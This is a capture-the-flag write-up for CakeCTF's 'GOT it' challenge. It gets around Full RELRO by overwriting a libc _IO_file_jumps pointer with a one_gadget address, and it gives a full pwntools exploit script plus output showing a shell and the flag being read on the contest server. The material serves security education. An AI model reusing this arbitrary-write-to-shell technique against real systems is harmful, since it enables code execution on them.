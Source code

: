 # GOT it

**Category**: misc \
**Points**: 165 points (32 solves) \
**Author**: ptr-yudai

Does "Full RELRO" mean it's really secure against GOT overwrite?

```
nc pwn.cakectf.com 9003
```

Attachments: `got_it.tar.gz`

## Overview

Source:

```c
#include <stdio.h>
#include <unistd.h>

void main() {
  char arg[10] = {0};
  unsigned long address = 0, value = 0;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  printf("<main> = %p\n", main);
  printf("<printf> = %p\n", printf);

  printf("address: ");
  scanf("%p", (void**)&address);
  printf("value: ");
  scanf("%p", (void**)&value);
  printf("data: ");
  scanf("%9s", (char*)&arg);
  *(unsigned long*)address = value;

  puts(arg);
  _exit(0);
}
```

- We're given a program and libc leak
- Then we can write 8 bytes to any address
- Then the program calls `puts(arg)`

```
$ checksec chall
[*] '/home/plushie/Programs/cake_ctf/got_it/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

As the challenge description says, we can't overwrite the GOT since the binary
has full RELRO. Instead, let's look for values in libc that we can overwrite.

To do this, I used gdb to step into `puts()` and ran `nextcall` until I found
an indirect call with a writable argument. Luckily I was able to find one
pretty quickly:

![i.png](i.png)

As you can see `R14` is purple, which means its readable and writeable. It's
actually in the libc BSS segment:
```
    0x7fc5b5e00000     0x7fc5b5e03000 rw-p     3000 1ea000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
```

Unfortunately we don't control the first argument, but that's OK - we can just use [one_gadget](https://github.com/david942j/one_gadget).
```
$ one_gadget libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

The first one almost worked, but it segfaulted since `R12` wasn't
null. I fixed it by sending a null byte to `scanf("%9s", (char*)&arg)`

Solve script:

```python
import pwn

pwn.context.binary = elf = pwn.ELF("./chall")
libc = pwn.ELF("./libc-2.31.so")

if pwn.args.REMOTE:
    io = pwn.remote("pwn.cakectf.com", 9003)
else:
    io = pwn.process("./chall")

if pwn.args.GDB:
    pwn.gdb.attach(
        io,
        gdbscript="""
break *main+312
continue
""",
    )

leak = int(io.recvlineS().strip().split(" = ")[-1], 16)
elf.address = leak - elf.symbols.main
leak = int(io.recvlineS().strip().split(" = ")[-1], 16)
libc.address = leak - libc.symbols.printf

pwn.log.info(f"elf.address = {hex(elf.address)}")
pwn.log.info(f"libc.address = {hex(libc.address)}")

addr = libc.symbols._IO_file_jumps + 56
value = libc.address + 0xE6C7E

io.sendlineafter("address: ", hex(addr))
io.sendlineafter("value: ", hex(value))

# Must be null to satisfy register for one_gadget
io.sendlineafter("data: ", b"\x00")

io.interactive()
```

Output:
```
$ python3 solve.py REMOTE
[*] '/home/plushie/Programs/cake_ctf/got_it/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/plushie/Programs/cake_ctf/got_it/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.cakectf.com on port 9003: Done
[*] elf.address = 0x56493a073000
[*] libc.address = 0x7f1c5e7b0000
solve.py:37: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter("address: ", hex(addr))
/home/plushie/Programs/archive/pwntools/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
solve.py:38: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter("value: ", hex(value))
[*] Switching to interactive mode
$ ls
chall
flag-94a6afdf8e59954b19196caca9ab2e35.txt
$ cat flag-94a6afdf8e59954b19196caca9ab2e35.txt
CakeCTF{*ABS*+0x190717@IGOTIT}
```
